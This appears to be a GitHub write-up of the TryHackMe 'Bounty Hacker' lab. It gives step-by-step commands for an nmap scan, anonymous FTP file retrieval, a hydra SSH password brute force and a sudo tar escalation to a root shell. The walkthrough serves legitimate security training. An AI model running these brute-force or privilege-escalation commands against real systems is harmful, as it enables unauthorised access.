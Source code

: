 # Bounty Hacker

<img align="right" src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker1.png" width="150" height="150">

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

LINK = [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

# Steps
1 - Join the room, start the virtual machine and the AttackBox (or connect via VPN)

2 - Find open ports on the machine, the nmap output will show three open ports:
* ```# nmap <ip-virtual-machine>```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker2.png" width="30%">

3 - Who wrote the task list?
* Access the ftp of the virtual machine with ```anonymous``` user
* ```# ftp <ip-virtual-machine>```
* List and download all the files in the ftp server
* ```ftp> dir```
* ```ftp> get locks.txt```
* ```ftp> get task.txt```
* View the content of tast.txt
* ```# cat task.txt```

4 - What service can you bruteforce with the text file found?
* Check the result of the nmap scan

5 - What is the users password? 
* Use hydra with the locks.txt file to bruteforce the ssh user and pasword
* ```# hydra -l lin -P /root/task.txt <ip-virtual-machine> ssh```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker3.png" width="50%">

6 - user.txt
* With the result of hydra login in to the virtual machine via ssh and get the flag of the ```user.txt```

7 - root.txt
* Run ```# sudo -l``` to list the commands that the ```lin``` user can run as sudo, you can see that ```/bin/tar``` is the only one
* Go to [GTFOBins](https://gtfobins.github.io/) and search for ```tar``` bypass command and execute it:
* ```# sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
* Search the root.txt file
* ```# find / -name flag.txt 2>/dev/null```
<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/cowboyhacker/cowboyhacker4.png" width="25%">

* Get the flag
